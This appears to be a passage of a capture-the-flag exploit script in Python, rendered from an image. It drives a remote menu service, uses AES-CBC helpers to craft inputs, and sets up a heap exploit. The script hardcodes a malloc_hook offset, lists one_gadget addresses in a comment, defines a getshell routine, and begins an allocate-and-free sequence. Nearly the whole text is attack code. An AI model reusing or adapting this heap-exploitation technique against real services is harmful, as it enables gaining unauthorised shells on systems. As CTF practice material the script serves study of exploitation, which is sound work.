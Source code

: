 ```py

def check(data):
	j = AES.new(KEY,AES.MODE_CBC,unhexlify(IV))
	return hexlify(j.encrypt(data))

def dec(data):
	j = AES.new(KEY,AES.MODE_CBC,unhexlify(IV))
	return j.decrypt(data)


def conceal(idx,size,data):
	io.sendlineafter('ID:',str(idx))
	io.sendlineafter('quest\n','1')
	io.sendlineafter('size:\n',str(size))
	io.sendlineafter('plaintext:',data)

def remove(idx):
	io.sendlineafter('ID:',str(idx))
	io.sendlineafter('quest\n','3')

def changename(data):
	io.sendlineafter('ID:','1')
	io.sendlineafter('quest\n','2')
	io.sendafter('name:',data)
	io.sendlineafter('IV(16 bytes):',unhexlify(IV))

def mypad(data):
	s = len(data)
	if s<16:
		for i in range(s,16):
			data += '\x00'
	return data

def tosend(data):
	return dec(mypad(data))

def send(data):
	s = len(data)
	if s<32:
		for i in range(s,32):
			data += '\x00'	
	cipher = AES.new(KEY, AES.MODE_CBC, unhexlify(IV))
	return cipher.decrypt(data)

def getshell():
	io.recv()
	io.sendline('9')
	io.recv()
	io.sendline('1')
	io.recv()
	io.sendline('10')
	io.recv()
	io.sendline('1')

malloc_hook = 0x3c4b10
#0x4527a,0xf0364,0xf1207

conceal(1,0x70,tosend('HKHK'))
conceal(2,0x58,tosend('HKHK'))
conceal(3,0x58,tosend('HKHK'))
remove(1)
remove(2)
remove(3)
```